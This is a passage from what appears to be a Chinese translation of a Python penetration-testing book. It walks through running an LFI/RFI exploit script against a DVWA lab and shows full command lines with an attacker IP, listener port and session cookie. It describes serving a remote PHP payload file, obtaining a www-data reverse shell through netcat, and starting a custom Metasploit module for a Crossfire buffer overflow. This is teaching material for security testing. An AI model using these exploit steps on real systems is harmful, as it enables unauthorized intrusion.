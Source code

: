 107-113 行处理漏洞的 RFI 部分。要利用 RFI，我们需要在攻击者机器上创建一个名为`evil.txt`的恶意文件，它将传递 PHP 有效载荷。创建后，我们需要将它放在`/var/www/html/evil.txt`中。然后，我们需要启动 Apache 服务器并将有效载荷传递 URL 更新为 RFI 的地址。最后，使用`send_exp()`方法，我们传递我们的有效载荷，然后启动 netcat 监听器。

上述代码适用于 LFI 和 RFI 漏洞。给定的代码按以下顺序获取用户参数：

```py
python LFI_RFI.py <target ip> <target Base/Login URL> <target Vulnetable URL> <Target Vul parameter> <Login required (1/0)> <Login cookies> <Attacker IP> <Attacker Lister PORT> <Add params required (1/0)> <add_param_name1=add_param_value1,add_param_name2=add_param_value2>  | <LFI (0/1)>
```

# 执行 LFI 利用

要执行和利用 LFI 漏洞，我们将向脚本传递以下参数：

```py
python LFI_RFI.py 192.168.1.102 http://192.168.1.102/dvwa/login.php http://192.168.1.102/dvwa/vulnerabilities/fi/ page 1 "security=low;PHPSESSID=5c6uk2gvq4q9ri9pkmprbvt6u2" 192.168.1.102 4444
```

上述命令将产生如下截图所示的输出：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/0a149bad-cf5b-4443-9498-5362a47481b9.png)![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/f55804f0-eee1-4ada-9e80-3ba646eadbe7.png)

如图所示，我们成功获得了`www-data`的低权限 shell。

# 执行 RFI 利用

执行和利用 RFI 漏洞，我们将向脚本传递以下参数：

```py
python LFI_RFI.py 192.168.1.102 http://192.168.1.102/dvwa/login.php http://192.168.1.102/dvwa/vulnerabilities/fi/ page 1 "security=low;PHPSESSID=5c6uk2gvq4q9ri9pkmprbvt6u2" 192.168.1.102 4444 0 0
```

上述命令将产生如下截图所示的输出：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/a18dd40a-9e5c-4566-89b0-4f45e5a734d6.png)

如我们所见，我们成功获得了 RFI 漏洞的 shell。

# 开发一个 Metasploit 模块来利用网络服务

在本节中，我们将看到如何制作一个 Metasploit 利用模块来利用给定的漏洞。在这种情况下，我们将专注于一个名为 Crossfire 的游戏应用程序的缓冲区溢出漏洞。为了编写自定义的 Metasploit 模块，我们需要将它们放在特定的目录中，因为当我们在 Metasploit 中使用`use exploit /....`命令时，默认情况下，框架会在默认的 Metasploit 利用目录中查找可用的模块。如果它在那里找不到给定的利用，那么它会在扩展模块目录中搜索，该目录位于以下路径：`/root/msf4/modules/exploits`。让我们创建路径和一个自定义目录。我们将打开我们的 Kali 虚拟机并运行以下命令：

```py
mkdir -p ~/.msf4/modules/exploits/custom/cf
cd ~/.msf4/modules/exploits/custom/cf
touch custom_cf.rb
```
